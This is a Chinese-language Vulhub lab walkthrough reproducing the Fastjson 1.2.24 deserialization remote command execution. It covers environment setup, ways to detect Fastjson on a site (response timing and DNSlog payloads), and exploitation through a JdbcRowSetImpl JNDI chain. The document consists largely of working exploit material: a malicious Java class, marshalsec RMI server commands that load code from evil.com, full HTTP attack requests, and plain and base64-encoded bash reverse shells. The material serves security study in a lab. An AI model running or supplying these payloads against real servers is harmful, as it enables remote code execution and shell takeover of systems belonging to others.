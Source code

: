# Fastjson 1.2.24 反序列化导致任意命令执行漏洞

## 漏洞描述

Fastjson 在解析 json 的过程中，支持使用 autoType 来实例化某一个具体的类，并调用该类的 set/get 方法来访问属性。通过查找代码中相关的方法，即可构造出一些恶意利用链。

参考资料：

- https://www.freebuf.com/vuls/208339.html
- [http://xxlegend.com/2017/04/29/title-%20fastjson%20%E8%BF%9C%E7%A8%8B%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96poc%E7%9A%84%E6%9E%84%E9%80%A0%E5%92%8C%E5%88%86%E6%9E%90/](http://xxlegend.com/2017/04/29/title- fastjson 远程反序列化 poc 的构造和分析/)

## 环境搭建

Vulhub 运行测试环境：

```
docker-compose up -d
```

环境运行后，访问 `http://your-ip:8090` 即可看到 JSON 格式的输出。

![image-20220223111249998](images/202202231112044.png)

我们向这个地址 POST 一个 JSON 对象，即可更新服务端的信息：

```
curl http://your-ip:8090/ -H "Content-Type: application/json" --data '{"name":"hello", "age":20}'
```

## 如何判断一个站点是否存在 Fastjson？

- 参考阅读：https://zeo.cool/2020/07/04/%E7%BA%A2%E9%98%9F%E6%AD%A6%E5%99%A8%E5%BA%93!fastjson%E5%B0%8F%E4%BA%8E1.2.68%E5%85%A8%E6%BC%8F%E6%B4%9ERCE%E5%88%A9%E7%94%A8exp/

**方式 1 响应时间**

正常数据响应时间（29 毫秒）：

![image-20220223141118979](images/202202231411062.png)

存在 Fastjson 时，16 进制数据响应时间明显变长（396 毫秒）：

![image-20220223140820884](images/202202231408972.png)

**方式 2 DNSlog**

最新版本 1.2.67 依然可以通过 dnslog 判断后端是否使用 fastjson

```
{"@type":"java.net.Inet4Address","val":"dnslog"}
{"@type":"java.net.Inet6Address","val":"dnslog"}
```

## 漏洞复现

因为目标环境是 Java 8u102，没有 `com.sun.jndi.rmi.object.trustURLCodebase` 的限制，我们可以使用 `com.sun.rowset.JdbcRowSetImpl` 的利用链，借助 JNDI 注入来执行命令。

首先编译并上传命令执行代码，如 `http://evil.com/TouchFile.class`：

执行 `javac TouchFile.java`，生成 `TouchFile.class`。

```java
// javac TouchFile.java
import java.lang.Runtime;
import java.lang.Process;

public class TouchFile {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"touch", "/tmp/success"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
            // do nothing
        }
    }
}
```

通过 python 搭建一个临时的 web 服务，该服务是为了接收 LDAP 服务重定向请求，需要在 payload 的目录下开启此 web 服务，这样才可以访问到 payload 文件。此处 payload 文件即 `TouchFile.class`。

```
python -m http.server 8888
```

然后我们借助 [marshalsec](https://github.com/mbechler/marshalsec) 项目，启动一个 RMI 服务器，监听 9999 端口，并制定加载远程类 `TouchFile.class`。

```
$ git clone https://github.com/mbechler/marshalsec.git
$ mvn clean package -DskipTests
$ cp ./target/marshalsec-0.0.3-SNAPSHOT-all.jar /home/kali/vulnerability/vulhub/fastjson/1.2.24-rce
```

```shell
$ java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://evil.com:8888/#TouchFile" 9999
```

![image-20220223122416137](images/202202231224191.png)

向靶场服务器发送 Payload，带上 RMI 的地址，注意 Content-Type 应该是 `application/json`：

```
POST / HTTP/1.1
Host: your-ip:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 160

{
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://evil.com:9999/TouchFile",
        "autoCommit":true
    }
}
```

![image-20220223122432463](images/202202231224531.png)

可见，命令 `touch /tmp/success` 已成功执行：

![image-20220223122451321](images/202202231224373.png)

### 反弹 shell

同样，执行 `javac TouchFile.java`，生成 `TouchFile.class`。

```java
// javac TouchFile.java
import java.lang.Runtime;
import java.lang.Process;

public class TouchFile {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"/bin/bash","-c","exec 5<>/dev/tcp/192.168.174.128/9999;cat <&5 | while read line; do $line 2>&5 >&5; done"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
            // do nothing
        }
    }
}
```

也可以使用 bash base64 的方式：

```java
String[] commands = {"bash", "-c","{echo, YmFzaCAtaSA+JiAvZGV2L3RjcC8xMDEuNDMuMTQ3LjEyNy85OTk5IDA+JjE=}|{base64,-d}|{bash,-i}"}
```

启动一个 RMI 服务器，监听 8888 端口，并制定加载远程类 `TouchFile.class`：

```
$ java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://evil.com/#TouchFile" 8888
```

发送 POST 请求包：

```
POST / HTTP/1.1
Host: 192.168.174.128:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 165

{
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://192.168.174.128:8888/TouchFile",
        "autoCommit":true
    }
}
```

监听 9999 端口，接收反弹 shell：

![image-20220223125747062](images/202202231257183.png)
